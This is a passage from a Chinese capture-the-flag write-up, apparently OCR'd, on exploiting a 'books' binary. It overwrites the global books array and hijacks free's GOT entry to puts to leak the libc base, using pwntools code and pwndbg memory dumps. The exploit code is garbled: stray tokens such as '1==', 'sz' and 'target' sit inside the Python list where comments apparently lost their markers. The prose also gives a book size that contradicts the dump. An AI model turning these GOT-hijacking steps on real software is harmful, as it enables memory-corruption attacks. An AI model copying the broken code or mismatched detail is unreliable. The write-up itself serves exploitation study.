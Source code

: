 books结构体的地址是固定的，地址为 `0x4040e0` ，每个 book 结构体前 0x8 个字节存储这本书的 size ，另外 0x8 字节存储这本书在 chunk 地址




当我们获得任意地址写的时候，就可以针对 `0x4040e0` 这个堆块去写入内容，再利用 `rewrite_book` 来实现劫持got表泄露 `libc base addr` 

我们写入的内容为：

```python
    edit(1, pwn.flat([
             1==
            0xff,  sz
            exe.sym.stdout,  target
             2==
            0x8,  sz
            exe.got.free,  target
             3==
            0x8,  sz
            exe.sym.secret_msg,  target
             4==
            0xff,  sz
            exe.sym.books  target
        ] + [0] * 0x60, filler = b"\x00"))
```

观察内存布局：

```c
pwndbg> x/40gx 0x4040e0
0x4040e0 <books>:       0x00000000000000ff      0x00000000004040a0
0x4040f0 <books+16>:    0x0000000000000008      0x0000000000404018
0x404100 <books+32>:    0x0000000000000008      0x00000000004040c0
0x404110 <books+48>:    0x00000000000000ff      0x00000000004040e0
0x404120 <books+64>:    0x0000000000000000      0x0000000000000000
0x404130 <books+80>:    0x0000000000000000      0x0000000000000000
0x404140 <books+96>:    0x0000000000000000      0x0000000000000000
0x404150 <books+112>:   0x0000000000000000      0x0000000000000000
0x404160 <books+128>:   0x0000000000000000      0x0000000000000000
0x404170 <books+144>:   0x0000000000000000      0x0000000000000000
```


此时我们就可以理解为
- 第一本书的内存地址为 `0x4040a0`（实际上这个为 stdout 的got表） size 为 `0xff`
- 第二本书的内存地址为 `0x404018`（实际上这个为 free 的got表） size 为 `0xff`
- 第三本书的内存地址为 `0x4040c0` (实际上为  `secret_msg` 的地址)，size 为 `0x8`
- 第四本书的内存地址为 `0x4040e0` （实际上我 `sym.books` 的地址，方便我们二次写入，size 为 `0xff`

于是可以劫持free的got表来实现打印 `stdout@got` 表项，再通过确定的偏移泄露出 `libc base addr`

```python
     free@got => puts
    edit(2, b"".join([
            pwn.p64(exe.sym.puts)
        ]))
```
